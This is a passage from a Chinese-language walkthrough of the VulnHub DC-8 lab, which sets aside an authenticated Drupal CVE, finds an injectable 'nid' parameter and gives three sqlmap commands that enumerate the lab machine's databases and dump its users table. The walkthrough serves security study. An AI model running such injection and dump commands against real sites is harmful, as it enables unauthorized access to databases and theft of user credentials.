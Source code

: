 都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/4.png)

SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/5.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/6.png)
